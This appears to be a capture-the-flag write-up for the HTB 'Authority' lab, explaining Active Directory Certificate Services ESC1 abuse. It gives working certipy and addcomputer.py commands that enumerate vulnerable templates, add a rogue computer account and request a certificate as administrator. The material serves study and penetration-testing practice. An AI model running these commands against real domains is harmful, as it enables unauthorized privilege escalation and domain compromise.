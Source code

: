 AD CS's complexity and configuration requirements present numerous opportunities for exploitation. Attackers can leverage a variety of vulnerabilities and misconfigurations to compromise domain security, escalate privileges, and maintain persistent access.

## Enumeration 

The Certificate Template is Vulnerable to ESC1 if the following requirements are met

- Client Authentication : True
- Enabled : True
- Enrollee Supplies Subject : True
- Require Management Approval : False
- Authorized Signature Required : 0

Command to find Vulnerable AD CS Certificate from linux is; 

```bash
$ certipy-ad find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.35.171 -stdout -enabled -vulnerable
```

In Below Screenshot, we can see that the all of the requirements are met for the certificate **CorpVPN** , which means the certificate is vulnerable to **ESC1**

![Pasted image 20240721193919](https://github.com/user-attachments/assets/e0c2159d-c922-4914-a9a4-03ba13894e27)

![Pasted image 20240721194128](https://github.com/user-attachments/assets/55e5ffe8-1fa1-4978-9fbf-026eb96dd2d9)

## Exploitation

First we need to add new Computer to the Domain because we have rights on Domain Computers and Domain Computer can request the Certificate.

```powershell
$ python3 addcomputer.py 'authority.htb/svc_ldap' -method LDAPS -computer-name 'EVIL1' -computer-pass 'MyStr0ngPass' -dc-ip 10.129.35.171
```

![Pasted image 20240721201659](https://github.com/user-attachments/assets/0ced1fb6-afbc-40eb-b43c-a3fcb926c857)

To abuse this, we need things mentioned below

- user name and password
- Certificate Authority Name
- Template Name
- User Principal Name (of which we can to request Certificate)

So the Command will be

```bash
$ certipy-ad req -u EVIL1$ -p 'MyStr0ngPass' -dc-ip 10.129.35.171 -ca AUTHORITY-CA -template CorpVPN -upn administrator@authority.htb -dns authority.htb -debug
```

- **req** for requesting mode
- **-ca** for Certificate Authority Name
- **-template** for template Name
- **-upn** for User Principal Name (Name in the format of Email)
